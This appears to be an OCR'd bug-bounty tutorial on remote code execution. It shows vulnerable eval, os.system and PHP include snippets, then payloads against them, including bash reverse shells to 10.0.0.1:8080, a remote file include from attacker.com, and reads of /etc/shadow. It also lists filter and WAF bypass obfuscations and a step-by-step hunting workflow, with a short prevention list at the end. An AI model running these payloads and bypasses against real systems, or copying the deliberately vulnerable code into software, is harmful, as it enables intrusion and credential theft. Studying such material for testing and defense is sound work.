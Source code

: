 # RCE

User
 input transforms into executable codes when code injection happens. The
 eval() function in Python constitutes a standard instance of this 
problem.

```
def calculate(input):
     return eval("{}".format(input))
```

If a user submits:

```
GET /calculator?calc="__import__('os').system('ls')"
```

The server executes `os.system('ls')`, revealing system files. More critically, an attacker can establish a reverse shell:

```
GET /calculator?calc="__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"
```

Command injection exploits unsanitized user input in system commands. If an application executes `wget` to download a file:

```
import os
def download(url):
    os.system("wget -O- {}".format(url))
```

An attacker can append a malicious command using a semicolon (`;`):

```
GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

File inclusion vulnerabilities allow attackers to execute remote or local files.

- **Remote File Inclusion (RFI):** If an application includes files dynamically:

```
<?php
$file = $_GET["page"];
include $file;
?>
```

An attacker can host a malicious PHP script:

```
http://example.com/?page=http://attacker.com/malicious.php?cmd=ls
```

- **Local File Inclusion (LFI):** If the application references local files:

```
<?php
$file = $_GET["page"];
include "lang/".$file;
?>
```

An attacker can escape directories and execute malicious files:

```
http://example.com/?page=../uploads/USERNAME/malicious.php
```

## Exploit Detection

- **Classic RCE:** Execute `whoami` to confirm execution:

```
GET /vulnerable-endpoint?cmd=whoami
```

- **Blind RCE:** Use time-based validation with `sleep`:

```
GET /vulnerable-endpoint?cmd=sleep+5
```

A delayed response confirms vulnerability.

By
 securing input validation, restricting execution privileges, and 
leveraging security tools, RCE risks can be significantly mitigated.

**Bypassing RCE Protection:** Use different string representations:

- `cat /etc/shadow`
- `cat "/e"tc'/shadow'`
- `cat /etc/sh*dow`
- `cat /etc/sha``dow`
- `cat /etc/sha$()dow`
- `cat /etc/sha${}dow`

## PHP-Based Bypasses

- Concatenate function names: `('sys'.'tem')('cat /etc/shadow');`
- Insert comments: `system/**/('ls');`
- Use hex encoding: `'\x73\x79\x73\x74\x65\x6d'('ls');`

## Python-Based Bypasses

- `__import__('os').system('cat /etc/shadow')`
- `__import__('o'+'s').system('cat /etc/shadow')`
- `__import__('\x6f\x73').system('cat /etc/shadow')`

## Splitting Payloads to Evade WAF

- Send parameters separately: `GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"`
- The server concatenates values into:`"__import__('os').system('ls')"`

## Other Bypasses

- The security bypass methods consist of Hex-encoding combined with URL encoding followed by double URL encoding.
- Case variations (uppercase/lowercase).
- Null bytes, newline characters, and escape characters.
- The testing of blocked payloads should be performed to determine possible workaround methods.

## Finding Your First RCE

1. Technicians should determine where users enter information through URL parameters,
HTTP headers, body parameters as well as file upload features.
2. Submit test payloads.
3. If blocked, apply protection-bypass techniques.
4. Confirm vulnerability using harmless commands.
5. The system administrator should prevent both reading of important files and modifying essential system files.
6. Create an RCE report that includes all required steps to reproduce the issue.

## Prevention

- User input must remain prohibited when executed through eval() and system() functions along with comparable functions.
- File inclusion must be restricted to the approval list while prohibiting all forms of remote file inclusion.
- The application needs to validate user input through robust input sanitization while implementing allowlists.
- The practice of least privilege should be enforced which limits the permissions of applications.
- WAF system provides Web Application Firewall capabilities to block exploit attempts.
- The update of software helps protect software against new risks that dependencies create.